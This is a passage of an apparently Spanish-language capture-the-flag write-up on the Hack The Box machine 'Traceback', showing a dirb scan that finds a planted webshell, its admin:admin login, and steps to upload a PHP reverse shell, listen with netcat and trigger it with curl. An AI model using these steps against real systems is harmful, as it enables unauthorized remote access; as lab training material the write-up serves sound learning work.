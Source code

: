 
> `dirb http://10.10.10.181 /root/Traceback/backdoors -X .php`

```console
-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Fri Aug 14 18:49:54 2020
URL_BASE: http://10.10.10.181/
WORDLIST_FILES: /root/Traceback/backdoors
EXTENSIONS_LIST: (.php) | (.php) [NUM = 1]

-----------------

GENERATED WORDS: 16

---- Scanning URL: http://10.10.10.181/ ----
+ http://10.10.10.181/smevk.php (CODE:200|SIZE:1261)

-----------------
END_TIME: Fri Aug 14 18:49:58 2020
DOWNLOADED: 16 - FOUND: 1
```
---


## **Explotación**
---

Teniendo el nombre del backdoor e ingresando por el browser se nos presenta con la siguiente pantalla de login:

![img]({{ '/assets/images/Traceback/Traceback_04.png' | relative_url }}){: .center-image }*(Login)*

---

y si se inspecciona el código fuente del mismo se puede ver que las credenciales son `admin:admin`

---

![img]({{ '/assets/images/Traceback/Traceback_05.png' | relative_url }}){: .center-image }*(Adentro)*

---

Parece ser un webshell bastante poderoso aunque solo me dediqué a hacer lo más simple, ver la manera de subir una reverse shell, voy con el buen `php-reverse-shell.php`.

1. Se modifica el script `php-reverse-shell.php`.
2. Se sube mediante el webshell.
3. Se abre un socket con `netcat -lnvp 443`.
3. Se hace consulta a la página para recibir la shell `curl http://10.10.10.181/shell.php`.
